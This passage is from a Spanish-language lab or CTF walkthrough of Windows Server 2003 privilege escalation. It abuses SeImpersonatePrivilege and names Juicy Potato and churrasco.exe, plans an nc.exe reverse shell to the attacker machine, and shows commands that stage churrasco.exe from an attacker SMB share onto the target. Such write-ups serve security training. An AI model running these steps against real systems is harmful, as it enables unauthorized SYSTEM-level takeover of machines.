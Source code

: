 Como podemos ver nos estamos enfrentando a un `Windows Server 2003`, es un sistema bastantea antiguo y lo tenemos que tener en cuenta

```bash
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
```

- Una de las utilidades que nos permite abusar del privilegio `SeImpersonatePrivilege` es `Juicy-Potato` para poder convertirnos en `NT-AUTORITY-SYSTEM` [JUICY POTATO](https://github.com/ohpe/juicy-potato/tree/master)

- Para sistemas antiguos puede que algunas veces el `JuicyPotato` puede que no funcione por lo que vamos a usar `churrasco.exe` debido a que nos enfrentamos contra un `Windows Server 2003` [ENLACE](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)

- Nos descargamos tanto `churrasco.exe` como `nc.exe` para luego entablarnos una `reverse-shell` a nuestro equipo con privilegios de `NT-AUTORITY-SYSTEM`

Para pasarnos `churrasco.exe` lo que vamos a hacer es crearnos un recurso compartido a nivel de red y a través de el transferirnos el fichero pero también se puede hacer de varias maneras que no vamos a contemplar

- Creamos el recurso compartido a nivel de red en nuestra maquina atacante

```bash
ls
 churrasco.exe   nc.exe
❯ impacket-smbserver recurso $(pwd) -smb2support
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

- Nos los copiamos en la maquina Windows de la siguiente forma

```bash
C:\WINDOWS\Temp\privesc>copy \\10.10.16.13\recurso\churrasco.exe churrasco.exe
copy \\10.10.16.13\recurso\churrasco.exe churrasco.exe
        1 file(s) copied.

C:\WINDOWS\Temp\privesc>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FDCB-B9EF

 Directory of C:\WINDOWS\Temp\privesc

09/22/2024  09:26 PM    <DIR>          .
09/22/2024  09:26 PM    <DIR>          ..
09/22/2024  07:22 PM            31,232 churrasco.exe
               1 File(s)         31,232 bytes
```